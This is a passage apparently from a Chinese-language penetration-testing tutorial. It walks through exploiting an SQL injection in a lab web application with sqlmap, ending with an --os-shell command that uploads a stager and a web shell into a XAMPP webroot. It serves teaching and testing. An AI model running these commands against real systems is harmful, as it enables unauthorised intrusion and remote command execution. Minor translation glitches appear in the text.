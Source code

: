 由于我们利用了 Linux 主机上的网络服务，因此我们将重点关注利用 web 应用程序上的一个漏洞来访问 shell。

# 利用 Windows 进行攻击

易受攻击的 web 应用程序具有**SQL 注入**漏洞。SQL 注入允许攻击者注入任意 SQL 查询并在后端 DBMS 上执行它们。以下 URL 上存在此漏洞：

```
http://<ip>/books1.php?title=&author=t
```

在可能以管理员权限运行的 web 应用程序上进行 SQL 注入意味着有可能完全接管 web 应用程序。为此，我们将使用`sqlmap`。使用`sqlmap`攻击 URL，语法如下：

```
sqlmap --url="http://<IP>/books1.php?title=&author=t"
```

A`sqlmap`确认存在注入漏洞，如下所示：

![](img/4218cacc-b63b-432e-8e6b-f5dc63e5339d.png)

下一步是使用`sqlmap`获取远程服务器上的 shell 访问权限。`sqlmap`附带了一个非常方便的功能，可以上传 stager，以便将更多文件上传到 webroot。然后，它接着上传一个 web shell，该 shell 执行命令并返回命令的输出，所有这些都使用一个命令。要触发此操作，请执行以下操作：

```
sqlmap --url="http://<IP>/books1.php?title=&author=t" --os-shell --tmp-path=C:\\xampp\\htdocs
```
